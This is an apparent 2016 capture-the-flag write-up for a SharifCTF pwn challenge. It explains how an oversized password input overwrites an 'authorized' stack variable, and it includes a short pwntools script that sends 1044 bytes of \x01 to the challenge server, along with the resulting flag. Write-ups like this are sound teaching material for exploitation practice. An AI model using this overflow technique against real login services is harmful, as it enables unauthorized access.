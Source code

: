 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-06T22:31:14+01:00"
title = "SharifCTF 2016 Login to System (PWN 200) Writeup"
+++

# Problem

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Run and capture the flag!
>
> Download

Points: 200

Solved by 106 team(s)

# Solution

We are provided with a x86-64 linux executable:
~~~
Question: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76aad63504451c70d8aa4e72299d2821fcf1b9f1, stripped
~~~

It is a server that starts a new handler thread for each incoming TCP connection on port 27515.

- The handler function prints a welcome message and reads your username and password.
- Then it checks if a stack variable, let's call it `authorized`, is `1`.
- If true, read the flag from file system and prints it.

There are several strange things going on here.

- Username and password are both able to overwrite the stack.
- The stack value `authorized` is read but never written to.

I was over thinking here and thought awesome - let's smash the stack jump into the true case in the if clause and get the flag. So I spent some time trying to get a nice ROP to do what I wanted. Big waste of time.

It turns out that the stack value `authorized` is located after both username and password, so the solution was to just fill the stack with \x01 and get the flag.

~~~
#!/usr/bin/env python2

from pwn import *
context(os = 'linux', arch = 'amd64')

r = remote('ctf.sharif.edu', 27515)

print r.recv()

r.sendline("Hello") # username
print r.recv()

r.sendline("\x01"*(1044)) # password
print r.recv()
~~~

Running it gets us the flag immediately.

~~~
Please enter your username and then press enter: Hello
Please enter your password and then press enter: \x01...
You are already logged in! Your flag is: cgjxkkbmdhudbovtezyv
~~~


*Flag is cgjxkkbmdhudbovtezyv*
